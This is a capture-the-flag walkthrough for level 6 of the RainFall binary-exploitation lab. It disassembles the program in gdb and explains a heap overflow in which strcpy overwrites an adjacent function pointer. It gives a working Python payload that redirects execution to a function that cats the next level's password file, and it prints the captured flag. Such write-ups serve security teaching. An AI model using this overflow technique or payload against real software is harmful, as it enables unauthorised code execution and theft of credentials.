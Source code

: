 # Level 6

- We login as user level6:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

```
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$ gdb level6
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```


- Let's identify most important orders:
```
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
```
>Allocate a block of memory of 0x40 (64 in decimal) bytes in the heap. Then, store the addresses of the allocated memory blocks in the stack (at `0x1c(%esp)`).

```
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
```
>Allocate a block of memory of 0x4 (4 in decimal) bytes in the heap. Then, store the addresses of the allocated memory blocks in the stack (at `0x18(%esp)`).

```
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
```
>`0x8048468 <m>: 0x83e58955`

>Put the address of `<m>` in the second memory zone allocated by malloc (the one with 4 bytes whose address is stored in `0x18(%esp)`).

```
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
```
>Place the address of the first parameter given to the program (located at `0xc(%ebp) + 0x4`) into the `edx` register.

>Copy the content of the first parameter given to the program into the first memory area allocated by malloc (the one with 64 bytes, whose address is stored at `0x1c(%esp)`).

```
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
```
>Attempt to execute the function whose starting address is stored at `0x18(%esp)`.


- Thus, the program attempt to execute the function `<m>`:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

```
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```
>`0x80485d1: "Nope"`

>This function prints "Nope".

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```
>`0x80485b0: "/bin/cat /home/user/level7/.pass"`

>This function prints our flag.


- Instead of the function `<m>`, we would like to execute the function `<n>`.
Given that the memory area that stores the address of the function to be executed is allocated on the heap just after the memory area that should receive our input, and since `strcpy` copies the entire source into the destination, we only need to know from how many characters the address of this function begins to be rewritten, and write the address of function `<n>` in its place.
```
(gdb) b*0x080484d0
```

```
(gdb) r $(python -c "print 'a'*72 + 'BBBBcccc'")
...
(gdb) x $eax
0x42424242:      <Address 0x42424242 out of bounds>
```

```
(gdb) r $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
...
(gdb) x/i $eax
  0x8048454 <n>:       push   %ebp
```

```
level6@RainFall:~$ ./level6 $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```